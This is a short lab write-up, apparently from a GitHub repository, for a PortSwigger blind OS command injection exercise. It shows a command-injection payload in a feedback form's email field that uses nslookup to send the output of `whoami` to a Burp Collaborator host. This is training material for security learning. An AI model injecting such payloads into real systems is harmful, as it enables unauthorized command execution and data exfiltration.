 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/7391dd38-a47d-4924-8204-929ac73dfdc2)

## Solution :

Use Burp Suite Professional to intercept and modify the request that submits feedback.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/99d1803e-0762-43d6-a924-fdaf46ebd99d)

Modify the email parameter, changing it
we know that is vulnerable to Blind Command injection. so we need to use `whoami` to extract the data so the payload will be.

`email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f797dcea-4152-4cca-bef9-b81937e79e98)

Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified email parameter.

qury will be changed to `email=||nslookup+`whoami`.r0sad6oety6ehd1bnvxgtr7co3uuik69.oastify.com||`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/39eb302b-6db5-4f73-a4b3-959751e7bb7b)

Then go to Burp Collaborator press poll now.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4c76caba-ac3d-4f5a-9b75-fc21b644c789)

We get the username in the details panel - `peter-6cAZQt`

Then go to the home page and click on submit solution.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/33be0e56-6c2f-4505-a424-d82777e59609)

LAB solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0a811e9a-92d4-4a5c-8495-f84b093d4107)



